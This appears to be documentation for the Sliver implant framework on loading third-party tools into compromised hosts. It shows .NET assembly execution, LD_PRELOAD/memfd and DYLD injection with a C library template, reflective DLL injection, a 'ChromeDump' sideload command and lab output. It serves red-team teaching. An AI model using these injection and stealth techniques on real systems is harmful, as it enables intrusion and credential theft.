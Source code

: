 # Sideloading features

Sliver implants support three different ways of loading third party tools:

- `execute-assembly`
- `sideload`
- `spawndll`

## Known limitations

Arguments passed to .NET assemblies and non-reflective PE extensions are limited to 256 characters. This is due to a limitation in the Donut loader Sliver is using. A workaround for .NET assemblies is to execute them in-process, using the `--in-process` flag, or a custom BOF extension like `inline-execute-assembly`. There is currently no workaround for non-reflective PE extension.

## .NET assemblies loading

This feature is only supported on Windows.

Using `execute-assembly`, one can run an arbitrary .NET assembly on a remote system via a Sliver implant. The implant will start a sacrificial process (`notepad.exe` by default, you can change this by using the `--process`) that will host a reflective DLL used to load the .NET CLR. The assembly will then be copied into this process and a new thread will start on the reflective DLL entrypoint, which will load and run the assembly in memory.

Here's an example with [Seatbelt](https://github.com/GhostPack/Seatbelt):

```
sliver (CONCRETE_STEEL) > execute-assembly -t 80 /tmp/Seatbelt.exe All
[*] Assembly output:

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,

=== Running System Triage Checks ===

=== Basic OS Information ===

  Hostname                      :  DESKTOP-0QQJ4JL
  Domain Name                   :
  Username                      :  DESKTOP-0QQJ4JL\lab
  ProductName                   :  Windows 10 Pro
  EditionID                     :  Professional
  ReleaseId                     :  1909
  BuildBranch                   :  19h1_release
  CurrentMajorVersionNumber     :  10
  CurrentVersion                :  6.3
  Architecture                  :  AMD64
  ProcessorCount                :  2
  IsVirtualMachine              :  True
  BootTime (approx)             :  5/19/2020 8:55:55 AM
  HighIntegrity                 :  False
  IsLocalAdmin                  :  True
    [*] In medium integrity but user is a local administrator- UAC can be bypassed.
...
```

## Shared libraries side loading

The `sideload` command allows to load and run code in-memory (Windows/Linux) or via dropping a temporary file to disk (MacOS). On Windows, the DLL will be converted to a shellcode via [sRDI](https://github.com/monoxgas/sRDI) and injected into a sacrificial process.

On Linux systems, Sliver uses the `LD_PRELOAD` technique to preload a shared library previously written in a memory file descriptor using the `memfd_create` syscall. That way, no file is stored on disk, which grants the implant a bit of stealth. The shared library is preloaded in a sacrificial process, which is `/bin/ls` by default.

On MacOS systems, Sliver uses the `DYLD_INSERT_LIBRARIES` environment variable to preload a dynamic library into a program, chosen by the operator. The target program must allow unsigned libraries to be loaded that way.

No specific operation is performed by Sliver for Linux and Mac OS shared libraries, which means it's up to the operator to build their shared libraries to execute whenever they see fit. A good starting point would be using the `constructor` attribute for MacOS shared libraries, or adding a `.init_array` section for the Linux version.

Sliver will use the `LD_PARAMS` environment variable to pass arguments to the sideloaded libraries. Thus, the library can just read this environment variable to retrieve parameters and act accordingly.

Here's a starting point :

```c
#if __linux__
#include <stdlib.h>

void DoStuff();

static void init(int argc, char **argv, char **envp)
{
    // unset LD_PRELOAD to prevent sub processes from misbehaving
    unsetenv("LD_PRELOAD");
    // retrieve the LD_PARAMS value
    // unset LD_PARAMS if there's no need for it anymore
    unsetenv("LD_PARAMS");
    DoStuff();
}
__attribute__((section(".init_array"), used)) static typeof(init) *init_p = init;
#elif __APPLE__
void DoStuff();

__attribute__((constructor)) static void init(int argc, char **argv, char **envp)
{
    // unset DYLD_INSERT_LIBRARIES to prevent sub processes from misbehaving
    unsetenv("DYLD_INSERT_LIBRARIES");
    // retrieve the LD_PARAMS value
    // unset LD_PARAMS if there's no need for it anymore
    unsetenv("LD_PARAMS");
    DoStuff();
}

#endif
```

Don't forget to unset the `LD_PRELOAD` or `DYLD_INSERT_LIBRARIES` environment variables, otherwise any sub process started by your shared library or host process will be preloaded with your shared library.

To side load a shared library, use the `sideload` command like this:

```
// Windows example
sliver (CONCRETE_STEEL) > sideload -e ChromeDump /tmp/chrome-dump.dll
// Linux example
sliver (CONCRETE_STEEL) > sideload -p /bin/bash -a "My arguments" /tmp/mylib.so
// MacOS example
sliver (CONCRETE_STEEL) > sideload -p /Applications/Safari.app/Contents/MacOS/SafariForWebKitDevelopment -a 'Hello World' /tmp/mylib.dylib
```

Please be aware that you need to specify the entrypoint to execute for Windows DLLs.

## Loading reflective DLLs

Loading reflective DLLs is just a special case of side loading DLLs. To make things easier, the `spawndll` command allows you to inject reflective DLLs and run them in a remote process.

Here's an example with the `PsC` tool from [Outflank's Ps-Tools suite](https://github.com/outflanknl/Ps-Tools):

```
sliver (CONCRETE_STEEL) > spawndll /tmp/Outflank-PsC.dll blah
[*] Output:

--------------------------------------------------------------------
[+] ProcessName:         svchost.exe
    ProcessID:   2960
    PPID:        576 (services.exe)
    CreateTime:  19/05/2020 10:53
    Path:        C:\Windows\System32\svchost.exe
    ImageType:   64-bit
    CompanyName:         Microsoft Corporation
    Description:         Host Process for Windows Services
    Version:     10.0.18362.1

<-> Session:     TCP
    State:       ESTABLISHED
    Local Addr:  172.16.241.128:49819
    Remote Addr:         40.67.251.132:443

--------------------------------------------------------------------
[+] ProcessName:         CONCRETE_STEEL.exe
    ProcessID:   7400
    PPID:        5440 (explorer.exe)
    CreateTime:  19/05/2020 10:54
    SessionID:   1
    Path:        C:\Users\lab\Desktop\CONCRETE_STEEL.exe
    ImageType:   64-bit
    UserName:    DESKTOP-0QQJ4JL\lab
    Integrity:   Medium
    PEB Address:         0x0000000000352000
    ImagePath:   C:\Users\lab\Desktop\CONCRETE_STEEL.exe
    CommandLine:         "C:\Users\lab\Desktop\CONCRETE_STEEL.exe"

<-> Session:     TCP
    State:       ESTABLISHED
    Local Addr:  172.16.241.128:49687
    Remote Addr:         172.16.241.1:8888
```

Note that in this case, the entrypoint of the reflective DLL (`ReflectiveLoader`) expects a non NULL parameter, which is why we passed a dummy parameter `blah`.

